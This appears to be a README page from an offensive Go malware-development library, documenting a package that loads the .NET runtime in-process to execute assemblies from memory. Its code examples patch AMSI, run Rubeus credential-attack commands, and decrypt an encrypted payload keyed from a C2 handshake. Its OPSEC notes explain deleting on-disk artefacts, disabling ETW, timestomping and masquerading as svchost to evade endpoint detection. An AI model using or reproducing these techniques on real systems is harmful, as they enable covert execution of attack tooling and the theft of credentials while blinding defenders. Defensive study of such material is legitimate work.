

# CLR Hosting — In-Process .NET Assembly Execution

[<- Back to PE Operations](README.md)

**MITRE ATT&CK:** [T1620 - Reflective Code Loading](https://attack.mitre.org/techniques/T1620/)
**Package:** `pe/clr`
**Platform:** Windows only
**Detection:** Medium

---

## For Beginners

Lots of offensive tooling ships as .NET (Rubeus, SharpHound, Seatbelt). `pe/clr` loads the .NET runtime inside your Go process and executes that tooling from memory — no `powershell.exe`, no `InstallUtil.exe`, no child process for the defender to scope.

---

## What It Does

Loads the .NET Common Language Runtime in the current process and executes
.NET EXE/DLL assemblies **from memory** — no disk writes of the payload,
no child process.

## How It Works

Two activation paths are tried in order:

1. **`mscoree!CorBindToRuntimeEx`** (legacy pre-.NET-4 hosting API).
   Deprecated but still exported — bypasses the metahost shim policy on
   correctly configured hosts.
2. **`CLRCreateInstance` → `ICLRMetaHost` → `GetRuntime` →
   `BindAsLegacyV2Runtime` → `GetInterface(ICorRuntimeHost)`**. The modern
   documented path; succeeds when legacy v2 activation policy is already
   bound at process start.

Once an `ICorRuntimeHost` is obtained, `Start()` brings the runtime up.
The default `AppDomain` is queried for `IDispatch`; a
`SAFEARRAY[byte]` carrying the assembly bytes is passed to
`AppDomain.Load_3`; `EntryPoint.Invoke` (EXE) or
`MethodInfo.Invoke` (DLL) executes the managed code.



## API

```go
func Load(caller *wsyscall.Caller) (*Runtime, error)
func InstalledRuntimes() ([]string, error)
func (r *Runtime) ExecuteAssembly(assembly []byte, args []string) error
func (r *Runtime) ExecuteDLL(dll []byte, typeName, methodName, arg string) error
func (r *Runtime) Close()

// Policy helpers — see "Environmental Requirement" below.
func InstallRuntimeActivationPolicy() error
func RemoveRuntimeActivationPolicy()  error

// Sentinel returned when ICorRuntimeHost cannot be obtained.
var ErrLegacyRuntimeUnavailable error
```

## Compared to `pe/srdi`

|            | `pe/clr`                            | `pe/srdi`                  |
|------------|-------------------------------------|----------------------------|
| Target     | Current process                     | Any remote process         |
| .NET       | Native (IL execution)               | Donut-wrapped stub         |
| Disk I/O   | `<exe>.config` (see below)          | None                       |
| AMSI       | `AppDomain.Load_3` scanned          | Donut loader scanned       |
| OPSEC      | Medium (CLR DLLs loaded, .config)   | High (shellcode-only)      |

## Environmental Requirement

On Windows 10+, `ICorRuntimeHost` is not directly instantiable from a
pure-native host (any Go binary without a .NET manifest). You need **both**:

1. A v2-capable CLR — i.e. **.NET Framework 3.5 installed** (Windows
   optional feature `NetFx3`). On a domain image, `DISM /Online
   /Enable-Feature /FeatureName:NetFx3 /All` or `Add-WindowsCapability`.
2. An `<exe>.config` file next to the running binary containing:
   ```xml
   <?xml version="1.0" encoding="utf-8"?>
   <configuration>
     <startup useLegacyV2RuntimeActivationPolicy="true">
       <supportedRuntime version="v4.0.30319"/>
       <supportedRuntime version="v2.0.50727"/>
     </startup>
   </configuration>
   ```

**Why not embed it via the PE manifest?**
`useLegacyV2RuntimeActivationPolicy` is read from an external
`<exe>.config` by `mscoree.dll`, not from `RT_MANIFEST`. There is no
equivalent `<trustInfo>`/`<compatibility>` block in the PE manifest schema
that carries this directive. The `pe/masquerade` package can masquerade the
binary's VERSIONINFO + icon + UAC level, but it cannot activate legacy
CLR policy.

If either requirement is missing, `Load` returns
`ErrLegacyRuntimeUnavailable`. `InstalledRuntimes()` always works and is
useful for target profiling.

## Usage

```go
import "github.com/oioio-space/maldev/pe/clr"

// One-time: write <exe>.config so legacy v2 activation policy is honoured.
_ = clr.InstallRuntimeActivationPolicy()

rt, err := clr.Load(nil) // nil caller = WinAPI
if err != nil {
    // errors.Is(err, clr.ErrLegacyRuntimeUnavailable) if v2 CLR missing
    panic(err)
}
defer rt.Close()

// Execute a .NET EXE from memory.
assembly, _ := os.ReadFile("Rubeus.exe")
_ = rt.ExecuteAssembly(assembly, []string{"triage"})

// Or a DLL:
// rt.ExecuteDLL(dllBytes, "Namespace.TypeName", "MethodName", "arg")

// Remove the config artefact — runtime keeps working, disk evidence gone.
_ = clr.RemoveRuntimeActivationPolicy()
```

---

## Recommended Usage — with OPSEC cleanup

```go
package main

import (
	"log"
	"os"

	"github.com/oioio-space/maldev/evasion/amsi"
	"github.com/oioio-space/maldev/pe/clr"
)

func main() {
	// Blind AMSI BEFORE loading hostile assemblies.
	_ = amsi.PatchAll(nil)

	// Write <self>.config so mscoree honours legacy v2 activation policy.
	if err := clr.InstallRuntimeActivationPolicy(); err != nil {
		log.Fatal(err)
	}

	rt, err := clr.Load(nil)
	if err != nil {
		log.Fatal(err)
	}
	defer rt.Close()

	// OPSEC: the config is only read once (at first mscoree call). After
	// Load() succeeds we can delete the on-disk artefact — the loaded
	// runtime remains fully functional for the lifetime of the process.
	_ = clr.RemoveRuntimeActivationPolicy()

	assembly, _ := os.ReadFile("Rubeus.exe")
	_ = rt.ExecuteAssembly(assembly, []string{"asktgt", "/user:admin"})
}
```

---

## Combined Example

Ship the .NET assembly to the target AES-GCM-encrypted, decrypt it in
memory, and hand the plaintext directly to `rt.ExecuteAssembly` — the
payload never exists unencrypted on disk and `AppDomain.Load_3` sees
it only after AMSI has been blinded.

```go
package main

import (
    "log"
    "os"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/pe/clr"
)

func main() {
    // 1. Blind AMSI before any managed code touches AmsiScanBuffer.
    _ = amsi.PatchAll(nil)

    // 2. Ensure the legacy v2 activation policy is in place.
    if err := clr.InstallRuntimeActivationPolicy(); err != nil {
        log.Fatal(err)
    }

    // 3. Read the AES-GCM blob (embedded via //go:embed or dropped
    //    by a stager). The key is a build-time constant or derived
    //    from a C2 handshake — never stored alongside the blob.
    key := mustLoadKey()
    blob, err := os.ReadFile("payload.bin") // AES-GCM ciphertext
    if err != nil {
        log.Fatal(err)
    }
    assembly, err := crypto.DecryptAESGCM(key, blob)
    if err != nil {
        log.Fatal(err) // integrity failure aborts cleanly
    }

    // 4. Load CLR and execute the decrypted assembly.
    rt, err := clr.Load(nil)
    if err != nil {
        log.Fatal(err)
    }
    defer rt.Close()
    _ = clr.RemoveRuntimeActivationPolicy() // delete config artefact

    _ = rt.ExecuteAssembly(assembly, []string{"triage", "/quiet"})
}

func mustLoadKey() []byte { /* ... */ return nil }
```

Layered benefit: the on-disk artefact is ciphertext (static YARA/AV
gets nothing), AMSI is silenced before any managed buffer hits
`AmsiScanBuffer` (defender's in-memory scan blinded), and the `.config`
file is removed between `Load()` and payload execution (EDR minifilter
sees the file appear and disappear in the same second, with no managed
code to connect it to).

---

## OPSEC Notes

### The `<exe>.config` artefact

**What is written.** `InstallRuntimeActivationPolicy()` creates
`<os.Executable()>.config` next to the running binary. This is the only
mandatory on-disk writeback for `pe/clr`.

**Forensic visibility.**
- EDR minifilter / sysmon EID 11 (file creation).
- Any subsequent on-disk scan (scheduled AV, triage tooling) will see the
  file.
- A `.config` next to a non-.NET binary is a strong analyst heuristic,
  especially one that explicitly enables `useLegacyV2RuntimeActivationPolicy`.

**Mitigations provided by this package.**
- `RemoveRuntimeActivationPolicy()` — delete the file **after** `Load()`
  returns. The CLR caches policy in-process on first resolution; the file
  is no longer consulted afterwards. The runtime keeps working, but the
  disk artefact is gone.
- `InstallRuntimeActivationPolicy` returns silently if the file already
  exists — this lets you target a host that legitimately ships a managed
  `<exe>.config` (Microsoft product directories, MS Office installation
  paths) and avoid writing anything at all.

**Mitigations NOT provided (caller's responsibility).**
- No ADS stashing of the config. `pe/clr` writes a visible file.
- No timestomp — pair with `cleanup/timestomp` if you want the config
  modification time to blend in.
- If the process crashes between Install and Remove, the file stays.

### Other detection signals

- **Module load** — `clr.dll`, `mscoreei.dll`, `mscorwks.dll` (CLR2) load
  into the process. Sysmon EID 7 / EDR `LdrLoadDll` hooks will see these.
- **AMSI v2** — every byte slice passed to `AppDomain.Load_3` is scanned
  by `AmsiScanBuffer`. Call `evasion/amsi.PatchAll()` first.
- **ETW** — CLR emits a rich stream of events
  (`Microsoft-Windows-DotNETRuntime`). Disable via `evasion/etw.All()` if
  needed.
- **VERSIONINFO mismatch** — a Go binary claiming to be a .NET host is
  unusual. Pair with `pe/masquerade/preset/<identity>` for a
  legitimate-looking host (e.g. `masquerade/svchost` — svchost.exe is a
  common legitimate CLR host).

### When `pe/srdi` is the better choice

If your OPSEC constraints preclude writing a `.config` at all, or you
need to target a remote process (already-running managed app) rather
than the current one, prefer `pe/srdi`:

- Converts your `.NET EXE/DLL` to shellcode via Donut.
- Inject the shellcode into any process using `inject/`. `pe/srdi`
  wraps the CLR inside the injected stub — no `<exe>.config` needed, no
  visible disk writes.

## MITRE ATT&CK

| Technique | ID |
|-----------|-----|
| Reflective Code Loading | [T1620](https://attack.mitre.org/techniques/T1620/) |

## Detection Level

**Medium** — ICorRuntimeHost use is detectable at multiple layers (module
load, ETW, filesystem), but each layer can be addressed: AMSI patched,
ETW disabled, `.config` removed post-init, host masqueraded via
`pe/masquerade`. A determined SOC with behavioural telemetry will still
spot it; a signature-only stack typically won't.

## Credits

- [ropnop/go-clr](https://github.com/ropnop/go-clr) — vtable layouts and
  flow reference.

---

## API Reference

See [pe.md](../../pe.md#peclr----in-process-net-clr-hosting)
